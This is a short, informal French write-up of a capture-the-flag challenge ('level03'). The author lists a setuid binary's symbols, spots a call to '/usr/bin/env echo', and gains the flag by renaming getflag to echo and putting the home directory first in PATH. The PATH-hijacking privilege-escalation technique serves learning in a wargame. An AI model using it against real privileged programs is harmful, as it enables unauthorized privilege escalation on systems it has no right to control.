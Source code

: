 On se connecte on trouve un binaire `level03`

On l'execute et cela nous sort `Exploit me`

On fait un `nm` sur le binaire

```
08049f28 d _DYNAMIC
08049ff4 d _GLOBAL_OFFSET_TABLE_
080485dc R _IO_stdin_used
         w _Jv_RegisterClasses
08049f18 d __CTOR_END__
08049f14 d __CTOR_LIST__
08049f20 D __DTOR_END__
08049f1c d __DTOR_LIST__
080486f4 r __FRAME_END__
08049f24 d __JCR_END__
08049f24 d __JCR_LIST__
0804a024 A __bss_start
0804a01c D __data_start
08048590 t __do_global_ctors_aux
08048420 t __do_global_dtors_aux
0804a020 D __dso_handle
         w __gmon_start__
08048582 T __i686.get_pc_thunk.bx
08049f14 d __init_array_end
08049f14 d __init_array_start
08048580 T __libc_csu_fini
08048510 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
0804a024 A _edata
0804a02c A _end
080485bc T _fini
080485d8 R _fp_hw
08048340 T _init
080483f0 T _start
0804a024 b completed.6159
0804a01c W data_start
0804a028 b dtor_idx.6161
08048480 t frame_dummy
         U getegid@@GLIBC_2.0
         U geteuid@@GLIBC_2.0
080484a4 T main
         U setresgid@@GLIBC_2.0
         U setresuid@@GLIBC_2.0
         U system@@GLIBC_2.0
         ```
Rien d'exploitable

On test donc avec `strings` 
Cette ligne la nous a fait tilte 
`/usr/bin/env echo Exploit me`

Avec l'env on utilise echo

Apres reflection
Si on renone getflag en echo et qu'on change le PATH ca pourrais fonctionne

On copie 
`getflag` dans le home et on le renome `echo`

On change le PATH avec 

```bash
export PATH=$HOME:$PATH
```
ce qui ajoute le home au debut du path, le shell va donc chercher les binaires en premier dans le home

on execute `./level03`

Ca marche !